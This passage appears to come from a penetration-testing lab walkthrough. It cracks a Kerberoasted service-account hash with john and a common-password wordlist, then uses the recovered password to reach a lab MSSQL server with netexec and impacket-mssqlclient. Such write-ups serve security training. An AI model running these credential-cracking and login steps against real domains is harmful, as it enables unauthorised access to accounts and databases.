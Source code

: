 Let's use john to crack all of this:

```
john --format=krb5tgs --wordlist=/usr/share/wordlists/seclists/Passwords/Common-Credentials/10k-most-common.txt kerberoast.txt
```

<figure><img src="../.gitbook/assets/image (1244).png" alt=""><figcaption><p>letmein</p></figcaption></figure>

So we got our password, since this is an sql user we can assume that mssql is running, let's check:

```
nxc mssql host.txt -u sqlsvc -p 'letme1n'    
```

<figure><img src="../.gitbook/assets/image (1245).png" alt=""><figcaption></figcaption></figure>

So now let's try accessing the database ->

```
impacket-mssqlclient netexec.lab/sqlsvc:letme1n@10.1.195.209 -windows-auth
```

<figure><img src="../.gitbook/assets/image (1246).png" alt=""><figcaption></figcaption></figure>

so if we don't know what to do we can use the famous help command ->

<figure><img src="../.gitbook/assets/image (1247).png" alt=""><figcaption></figcaption></figure>
